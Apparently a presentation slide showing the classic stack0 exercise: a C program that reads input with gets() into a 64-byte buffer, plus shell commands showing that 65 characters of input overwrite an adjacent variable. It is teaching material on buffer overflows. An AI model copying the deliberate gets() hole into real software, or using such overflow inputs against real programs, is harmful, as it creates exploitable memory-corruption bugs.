

# Example 1
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv) {
volatile int modified;
char buffer[64];

modified = 0;
gets(buffer);

if(modified != 0) {
	printf("you have changed the 'modified' variable\n"); 	}
else {
printf("Try again?\n");
}
}
 $echo `python -c 'print("A"*64)'` | ./stack0
Try again?
$echo `python -c 'print("A"*65)'` | ./stack0
you have changed the 'modified' variable